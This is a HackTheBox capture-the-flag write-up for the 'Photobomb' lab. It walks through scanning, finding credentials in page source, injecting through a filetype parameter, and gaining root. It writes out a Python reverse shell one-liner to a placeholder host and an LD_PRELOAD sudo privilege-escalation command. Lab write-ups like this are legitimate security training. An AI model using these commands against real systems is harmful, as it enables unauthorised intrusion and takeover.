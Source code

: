 # photobomb-htb-writeup
A free lab from **HackTheBox**, can be found in here if still available: https://app.hackthebox.com/machines/Photobomb

![Photobomb](https://user-images.githubusercontent.com/31168741/201704551-e765c5a7-c32e-43a4-bebc-23ff5f1825c7.png)

## User Own:
Setting up VPN to access lab by the following command:

`sudo openvpn [your.ovpn file]`

![1](https://user-images.githubusercontent.com/31168741/201707116-98e6a13c-2509-4771-9f91-15d231bf138e.PNG)

Activate machine.

![2](https://user-images.githubusercontent.com/31168741/201707154-ec4302dc-20a5-476e-8208-4502d0d672aa.PNG)

Check if it's connected.

![3](https://user-images.githubusercontent.com/31168741/201707188-ddf40cfa-5c10-4bb8-a89d-66c3c97f88e4.PNG)

Run nmap scan to find more information regarding the machine. `sudo nmap -sS -A -p- [machine-ip] -T4` 

![4](https://user-images.githubusercontent.com/31168741/201707217-7ce7997e-73c7-4c6d-956d-3f94bfa7d552.PNG)

Following the scan report above, let's check the ip in browser since it shows has the '80' port open.

![5](https://user-images.githubusercontent.com/31168741/201709583-ff4725a7-670d-48db-8f89-579762570e65.PNG)

Oops! If you ever face issues like this, just do the following:

`sudo nano /etc/hosts`

Type:

>[machine-ip] [domain-address]

![6](https://user-images.githubusercontent.com/31168741/201709609-1540dace-f0e3-40f7-ac46-b5d5c287da7c.PNG)

It worked!

![7](https://user-images.githubusercontent.com/31168741/203564356-ed8d8a73-8c2e-467b-8e79-df37fcdbf1b9.PNG)

Look here and there to find sufficient clues around. I'm running some more tools such as:

`dirsearch -u http://[machine-ip]`<br>

![11](https://user-images.githubusercontent.com/31168741/203568024-106123d0-9112-4ba7-a00c-df39b63725c2.PNG)

From the above found directories:

![10](https://user-images.githubusercontent.com/31168741/203569553-e7f4929d-10ea-45ac-a2f3-fe908b3ea09a.PNG)

Let's look around for clues as to where we can find the credentials. Viewing page sources & inspecting might act benefitting.

![8](https://user-images.githubusercontent.com/31168741/203569838-840fdb47-9844-488d-ad27-52ea89d1ecb8.PNG)

![12](https://user-images.githubusercontent.com/31168741/203569955-c4b4ff0a-c559-4ac0-8cea-45ba2d020224.PNG)

![13](https://user-images.githubusercontent.com/31168741/203570043-aa69c1e7-9556-4aa9-99b0-29c5bd9fc72d.PNG)

Found user and pass. Let's try logging in!

![14](https://user-images.githubusercontent.com/31168741/203570096-e413c8e3-98ee-45bf-bfef-0ea898d786de.PNG)

It worked. What we see is a page with few pictures to download. Let's try incepting the request using burp and see if anything vulnerable found.

![15](https://user-images.githubusercontent.com/31168741/203583327-0ad20b7d-949b-42a4-bc93-349544843706.PNG)
![16](https://user-images.githubusercontent.com/31168741/203583637-609ce260-e0ec-451e-a2f7-9daa83257543.PNG)
![17](https://user-images.githubusercontent.com/31168741/203583725-4b26b2a4-b0d3-45c8-a372-97394cf4a093.PNG)

Tampering with the parameters for the POST request and find that the filetype parameter might be injectable. So, we prepare a python reverse shell and place in filetype section and send the request.

![18](https://user-images.githubusercontent.com/31168741/203584234-6073bc41-3f86-41a7-a2c3-9fe9cd38dbf4.PNG)

The reverse shell: `python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("[LHOST]",[LPORT]));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'`

![29](https://user-images.githubusercontent.com/31168741/203584370-2ec4ea71-7176-41c0-bbb0-7c373f8f4df9.PNG)
![19](https://user-images.githubusercontent.com/31168741/203584398-ba1628ea-8b44-4fa6-95f1-58abb8b8d6e7.PNG)

We're in the target machine. Looking a little here and there helped me with the user flag!

![20](https://user-images.githubusercontent.com/31168741/203584616-86f9d8fe-7590-4c27-938b-10b1f34d6690.PNG)

Second, to own the system, let's check the sudo rights: `sudo -l`.

![21](https://user-images.githubusercontent.com/31168741/203584890-1a8e1b17-0468-4ece-9b32-3eaf5c5b82c0.PNG)

LD_PRELOAD can be invoked with sudo, let’s create a simple PE shell to exploit this.

![22](https://user-images.githubusercontent.com/31168741/203585120-960af202-007e-419a-ab08-88f12e474960.PNG)
![25](https://user-images.githubusercontent.com/31168741/203585279-40c47a8f-d436-4fec-bc14-03ff8b146e7e.PNG)

Compile the file.

![27](https://user-images.githubusercontent.com/31168741/203585320-d15b7a67-3a79-47a3-9e1f-2be25eff6950.PNG)

Now, upload it to the target machine through python server.

![23](https://user-images.githubusercontent.com/31168741/203585445-42a08f82-64b7-485f-bb6a-6442790c1026.PNG)
![24](https://user-images.githubusercontent.com/31168741/203585498-5daf23df-1f33-458d-a738-c13ca080131c.PNG)

Now the exploit is in the target machine. Trigger the shell to enter as root: `sudo LD_PRELOAD=/home/wizard/shell.so /opt/cleanup.sh`

![28](https://user-images.githubusercontent.com/31168741/203585818-397e1d19-ce2f-4080-88b8-76813f5d7e00.PNG)

Operating as root! We found root flag!
